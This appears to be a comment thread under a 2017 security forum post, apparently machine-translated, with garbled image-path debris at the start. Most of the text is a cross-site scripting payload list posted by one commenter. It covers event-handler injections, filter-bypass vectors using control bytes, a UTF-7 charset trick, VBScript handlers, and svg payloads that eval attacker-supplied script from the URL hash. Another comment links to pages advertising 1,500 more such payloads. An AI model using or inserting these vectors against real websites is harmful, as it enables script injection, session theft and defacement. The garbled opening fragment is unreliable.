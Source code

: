 0 Reply Ta
00airs 2017-06-12 02:58:11
Great, learned

0 Reply Ta
Report security 2017-06-12 07:33:52
Is RMB so profitable? Drive 1500 XSS Payload: https://sql--injection.blogspot.jp/p/blog-page_80.html https://sql--injection.blogspot.jp/p/blog-page_63.html

0 Reply Ta
hades 2017-06-12 07:57:18
You can haha

0 Reply Ta
alinacong 2017-06-14 01:31:13
So good, so good, learned

0 Reply Ta
hades 2017-06-14 03:27:42
<img src=1.png onload=alert(7)>
<style onload=alert(8)>
<input src=1.png type="image" onload=alert(3)>
<script src=0.js onerror=alert(1)></script>
<script src=1.js onload=alert(5)></script>
<listing><img src=x onerror=alert(32)></listing>

<img onerror=MsgBox+9 language=vbs src=a>
<img onerror=MsgBox+8 language=vbscript src=a>

====
<svg[0X09]onload=alert()>
<svg[0X0A]onload=alert()>
<svg[0X0C]onload=alert()>
<svg[0X0D]onload=alert()>
<svg[0X020]onload=alert()>
<svg[0X2F]onload=alert()>
====

<meta http-equiv="content-type" content="text/html;charset=utf-7"> +ADw-script+AD4-alert(123); +ADw-/script+AD4-

<svg/onload=eval(location.hash.slice(1))>
<svg/onload=eval(location.hash.substr(1))>
<svg/onload=eval(location.hash.split('#')[1])>
<svg><g onload=alert(55)>
<svg onload=alert(54)>

<image src=1 onerror=alert(53)>
<b/ondrag=alert()>x
<audio src=x onerror=alert(51)>

<frameset onload=alert(40)>
<select onfocus=alert(36) autofocus>
<textarea onfocus=alert(37) autofocus>
<keygen onfocus=alert(38) autofocus>
<input onfocus=alert(33) autofocus>
